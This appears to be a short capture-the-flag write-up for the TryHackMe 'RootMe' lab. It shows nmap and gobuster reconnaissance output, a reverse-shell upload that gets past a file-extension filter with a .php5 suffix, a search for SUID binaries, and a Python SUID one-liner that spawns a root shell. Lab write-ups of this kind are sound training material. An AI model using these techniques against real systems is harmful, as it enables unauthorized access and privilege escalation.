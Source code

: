 # David - 07/04/2022

## RootMe
-------------------------
```bash
EXPORT IP = 10.10.67.69
```

nmap -sV -sC 10.10.67.69 -o nmap/initial
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-07 18:41 EDT
Nmap scan report for 10.10.67.69
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.19 seconds

```

# 1. Ports open
22, 80

# 2. Run GoBuster

gobuster dir -u http://10.10.67.69/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.67.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/07 18:48:48 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.67.69/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.67.69/css/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.67.69/js/]     
/panel                (Status: 301) [Size: 310] [--> http://10.10.67.69/panel/]  
Progress: 10688 / 220561 (4.85%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2022/04/07 18:49:37 Finished
===============================================================
```

# 3. Get a shell

Upload revshell.php5 # 5 is to bypass filter

# 4. Find user.txt

find / -type f -name user.txt 2> /dev/null
```
    -type f – you are telling find to look exclusively for files
    -name user.txt – instructing the find command to search for a file with the name “user.txt”
    2> /dev/null – so error messages do not show up as part of the search result 
```

# Privesc
```
find / type f -user root -perm -u=s 2>/dev/null

```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'


THM{pr1v1l3g3_3sc4l4t10n}

